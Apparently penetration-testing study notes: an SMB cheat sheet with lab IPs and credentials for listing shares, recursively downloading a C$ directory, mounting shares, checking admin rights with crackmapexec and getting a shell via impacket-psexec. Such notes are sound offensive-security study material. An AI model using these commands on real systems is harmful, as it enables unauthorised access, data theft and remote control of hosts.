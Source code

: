 ### smb list shares
```
smbclient -L 10.11.0.22 --port=4455(optional) --user=Administrator(optional)
```
### smb connect to share
```
smbclient //172.16.196.13/IPC$(sharename) -U domain/offsec%lab -port
```
### smb download
```
Download directory:
kali: smbget -R smb://192.168.236.249/C$/staging/.git -U relia.com/damon%pass
```
### smb mount
```
sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share
```
### smb commands
```
get file
put file
pwd
ls
```

### SMB shell 
$Admin and C$ needs to be writable
```
crackmapexec smb 10.10.139.11 -u backup_service -p It4Server --shares(check if credential has admin right)
kali: impacket-psexec backup_service:It4Server@10.10.139.11
```
